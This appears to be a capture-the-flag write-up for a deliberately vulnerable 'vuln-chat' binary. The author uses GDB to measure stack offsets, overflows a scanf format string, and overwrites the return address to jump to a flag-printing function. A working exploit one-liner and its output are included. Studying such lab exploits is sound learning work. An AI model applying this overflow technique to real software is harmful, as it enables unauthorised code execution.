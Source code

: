 scanf format is 0x73303325; which is "%30s" 

Found a function that prints the flag at 0x0804856b 

```c
void printFlag(void)
{ 
  system("/bin/cat ./flag.txt"); 
  puts("Use it wisely"); 
  return; 
} 
```

This was the first problem where I needed to jump to a totally different function. I vaguely remembered that the return pointer for a function call is on the stack so probably I'd need to overflow one of the scanf calls to corrupt the return pointer. Based on the structure I figured I'd probably first need to modify the format string with the first scanf to allow reading more data, then modify the the return pointer in the second call. I Googled and found <http://www.cis.syr.edu/~wedu/seed/Book/book_sample_buffer.pdf> to confirm my basic idea of how the return pointer works.

I then used GDB to watch to execution of the code. I saw the current return pointer went to 0xf7deaee5. Looking at the registers:

```
esp	0xffffd0f0	top of stack	 
ebp	0xffffd128	stack base pointer 
```

Looking at the memory base the base pointed I found the return pointer:

```
➜ x $ebp+4
0xffffd12c:  0xf7deaee5 
```
 
The array scanf is writing to starts at 0xffffd10f  ( $ebp - 0x19 ) so I needed to write 25+4+4 where the last 4 overwrite the return. Since that's greater then 30 I needed to do it on the second pass, after corrupting the format string. There it needs to write 45+4+4 so we need to make the string support writing at least 53 bytes 


```
➜  echo "CTF{whatever}" >> flag.txt 
➜  (echo -e $'01234567890123456789%60s\x00'; echo -e $'0123456789012345678901234567890123456789012345678\x6b\x85\x04\x08';) | ./vuln-chat 
----------- Welcome to vuln-chat ------------- 
Enter your username: Welcome 01234567890123456789%60s! 
Connecting to 'djinn' 
--- 'djinn' has joined your chat --- 
djinn: I have the information. But how do I know I can trust you? 
01234567890123456789%60s: djinn: Sorry. That's not good enough 
CTF{whatever} 
Use it wisely 
[1]    4760 done                              ( echo -e $'01234567890123456789%60s\x00'; echo -e ; ) | 
       4761 segmentation fault (core dumped)  ./vuln-chat 
```
Could have figured out just from Ghidra, but since I wasn't familiar with stack layout, GDB helped 
